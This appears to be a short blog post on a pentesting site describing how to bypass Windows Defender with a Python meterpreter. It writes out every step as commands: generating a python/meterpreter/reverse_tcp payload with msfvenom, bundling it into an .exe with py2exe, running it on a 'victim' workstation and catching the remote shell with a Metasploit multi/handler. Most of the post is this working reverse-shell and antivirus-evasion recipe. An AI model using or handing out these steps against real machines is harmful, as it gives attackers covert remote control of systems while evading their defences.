 ```yaml
---
published: true
layout: post
categories: articles
tags:
  - python
  - rev_shell
  - meterpreter
---
```


# Summary
{:.no_toc}

* toc
{:toc}

# Introduction

So, the situation, it is possible to download a file to a machine that is being tested as part of a Pentest or other legitimate activity in Windows, and it is even possible to execute it. If we are talking about the latest, tenth version of the OS, then we will run into its Windows Defender, and the likelihood of stumbling upon an antivirus is great. In such a situation, a very convenient and expandable meterpreter will not work, what is the alternative?

## Python
{:id="python"}

Here is the answer. Using Python in conjunction with metasploit and msfvenom allows us to get a decent alternative to the classic meterpreter with most of its convenient features. True, some will have to sacrifice, it will not be possible to use such commands as getsystem and it will not be possible to migrate to the process.


# Let's start

The general scheme is as follows: we generate the python code using msfvenom, feed it to py2exe, launch the binary on the victim machine and catch the session.
<br><br>
First, install py2exe under version 3.4, since everything above is not supported.
~~~
pip install py2exe
~~~
Or, if you like updating like me:
~~~
python -3.4 –m pip install py2exe
~~~

<br><br>

Next, create the .py code:
~~~
msfvenom -p python/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > payload.py
~~~

It is necessary to add "import getpass" to the code, which for some reason does not do the default msfvenom.

<br><br>


Make the .exe file:
<br>
~~~
python34 -m py2exe.build_exe payload.py --bundle-files 0
~~~


And run it on the victim's workstation preliminarily run handler:<br>
~~~
msfconsole
use exploit/multi/handler
set PAYLOAD python/meterpreter/reverse_tcp
set lhost eth0
set lport <PORT>
run
~~~

And we get the command shell:

![Python_shell]({{ site.baseurl }}/assets/img/posts_rus/python_shell.jpg){:class="img"}

# Conclusion
{:id="end"}

A simple and effective way to combat Windows Defender if you do not want to lose the convenient and familiar meterpreter functionality in favor of more native solutions, such as ssh or telnet.
<br><br>
